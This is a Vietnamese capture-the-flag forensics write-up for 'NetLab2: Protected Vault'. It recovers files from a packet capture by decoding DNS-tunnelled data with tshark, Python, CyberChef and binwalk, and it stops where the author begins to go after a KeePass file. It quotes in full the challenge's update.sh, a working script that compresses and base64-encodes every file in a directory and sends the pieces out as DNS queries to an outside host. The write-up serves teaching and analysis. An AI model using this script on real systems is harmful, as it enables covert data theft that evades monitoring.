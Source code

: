 ***NetLab2: Protected Vault***

![image](https://github.com/user-attachments/assets/e04bf9e3-3b83-41ba-8b4a-e58bca68697d)

Nhìn trong file khi dung Export Oject ta được ```update.sh``` như sau:

```python
for f in $(ls .); 
do s=4;b=50;c=0; 
for r in $(for i in $(gzip -c $f| base64 -w0 | sed "s/.\{$b\}/&\n/g");
do if [[ "$c" -lt "$s"  ]]; then echo -ne "$i-.";
 c=$(($c+1)); 
 else echo -ne "\n$i-."; 
 c=1;
  fi; 
  done ); 
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short; 
 done ; 
 done
```

dịch đoạn code sau ta có vài điểm lưu ý:

```python
 else echo -ne "\n$i-.";
```
Đây là thay thế xuống dòng bằng ```i-```

```python
 do dig +tries=1 +timeout=1 +noidnin +noidnout @10.2.32.72 `echo -ne $r$(echo $f|base58)|tr "+" "}"|tr "/" "{"` +short;
```

Thay thế ```+``` bằng ```}```, ```/``` bằng ```{```.
Lưu ý 2 điểm này nó sẽ quan trọng trong bài toán sau.
>
Filter dns thấy được 1 luồn file như base64, chúng ta sẽ tách ra hết để decode xem thử.

```python
tshark -nr netlab2.pcap -Y "dns" -T fields -e dns.qry.name > dns.txt
```

Có vẻ này là file đã decode từ đoạn code kia và vì tác giả bài wu đã thử base64 rất nhiều lần :))). Nên giờ sẽ sửa lại như 2 điều ở trên đã nói bằng đoạn python sau.

```python
# Đọc nội dung từ tệp input
with open('dns.txt', 'r', encoding='utf-8') as file:
    content = file.readlines()

# Xử lý nội dung
processed_lines = []
for line in content:
    # Thay thế '-.' bằng ký tự xuống dòng
    line = line.replace('-.', '\n')
    
    # Thay thế '}' bằng '+'
    line = line.replace('}', '+')
    
    # Thay thế '{' bằng '/'
    line = line.replace('{', '/')
    
    processed_lines.append(line)

# Ghi kết quả vào tệp output
with open('t3.txt', 'w', encoding='utf-8') as file:
    file.writelines(processed_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau khi tách bằng file code sau được file t3.txt nhưng không đẩu đủ chúng ta cần xóa những dòng dư thừa bằng code python sau.

```python
# Các chuỗi cần xóa
strings_to_remove = [
    "7bgTtW3Fp59pgy", "2PmGj7XTSNwg5", "2NHJWYG1EYAkZ",
    "2x9kyYFcUyDeC2c65", "4xUi2j75eJtNc1", "2tuJoHGout6YhgSX3",
    "9CUmw2dKFRrmvfhiEM"
]

# Đọc nội dung từ tệp input
with open('t2.txt', 'r', encoding='utf-8') as file:
    lines = file.readlines()

# Lọc các dòng không chứa các chuỗi cần xóa
filtered_lines = [
    line for line in lines if not any(substring in line for substring in strings_to_remove)
]

# Ghi kết quả vào tệp output
with open('gob', 'w', encoding='utf-8') as file:
    file.writelines(filtered_lines)

print("Quá trình xử lý đã hoàn tất!")
```

Sau đó chúng ta decode base64 treeb cyberchef đem đi binwalk.

sau z chúng ta binwalk được file nén sau được con đường hy vọng.

```python
╭─   nart   ~/Solve                                                                          ✔  03:10:54 AM  ─╮
╰─❯ binwalk -e pls.zip                                                                                               ─╯

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             gzip compressed data, has original file name: "blueteam.bmp", from Unix, last modified: 2022-04-08 06:35:19
27707         0x6C3B          gzip compressed data, has original file name: "discord.png", from Unix, last modified: 2022-09-25 06:48:33
27734         0x6C56          PNG image, 256 x 256, 8-bit colormap, non-interlaced
29086         0x719E          gzip compressed data, has original file name: "Flag.kdbx", from Unix, last modified: 2022-10-24 06:24:10
31373         0x7A8D          gzip compressed data, has original file name: "gaixinh.jpg", from Unix, last modified: 2022-07-19 18:20:33
40164         0x9CE4          gzip compressed data, has original file name: "kcsc.png", from Unix, last modified: 2022-09-25 06:48:33
53705         0xD1C9          gzip compressed data, has original file name: "meme.jpg", from Unix, last modified: 2022-09-25 06:48:33
69258         0x10E8A         gzip compressed data, has original file name: "update.sh", from Unix, last modified: 2022-10-24 06:59:42
```
thấy được đích r

![image](https://github.com/user-attachments/assets/0d331f03-b9cd-467e-a04c-1df059a2332f)

Sau khi mò thì thấy file Flag.kdbx hợp lý nhất nên sẽ tấn công nó.

Có vẻ như file ```.kdbx``` là file nén đặc biệt nên cần tải công cụ đặc biệt để mở nó.


